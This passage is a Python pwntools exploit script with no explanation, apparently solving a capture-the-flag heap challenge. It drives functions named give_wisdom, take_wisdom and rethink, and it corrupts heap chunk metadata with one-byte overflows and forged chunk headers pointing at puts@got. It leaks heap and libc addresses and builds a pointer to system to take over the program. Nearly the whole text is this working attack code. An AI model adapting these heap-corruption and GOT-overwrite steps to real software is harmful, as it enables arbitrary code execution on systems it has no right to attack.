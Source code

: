 ```python
give_wisdom(32,buf)	# 9
give_wisdom(32,buf)	# 10
give_wisdom(32,buf)	# 11

payload = "B"*32
payload += "\xf0"

rethink(10,payload)

take_wisdom(10)

buf = "X"*7
'''
buf += p64(0x30)
buf += p64(0x31)
buf += p64(0x21)
buf += p32(0x00603018)	# puts@got
'''
give_wisdom(70,buf)	# 12

leak = take_wisdom(12)
leak = p.recvuntil("Neonate")

leak = leak[48:56]
heap_leak = u64(leak)
log.success("Heap: " + hex(heap_leak))

buf = "a"*32
buf += p64(0x31)*2
buf += p64(0x21)
buf += p64(heap_leak)
buf += p64(0x8)
buf += p64(0x603018)

give_wisdom(80,buf)	# 13

leak = take_wisdom(11)
leak = leak[::-1]
leak = leak[0:9]
leak = leak[::-1]
leak = leak.strip("\n")
libc_leak = u64(leak) - elf.symbols['puts']

log.success("Libc: " + hex(libc_leak))

buf = "C"*32
give_wisdom(32,buf)	# 14
give_wisdom(32,buf)	# 15
give_wisdom(32,buf)	# 16
give_wisdom(32,buf)	# 17

payload = "D"*32
payload += "\x90"
rethink(15,payload)

take_wisdom(16)

payload = p64(0x21)
payload += p64(0x0000000000603098)

give_wisdom(80,payload)	# 18

final = p64(libc_leak + elf.symbols['system'])
```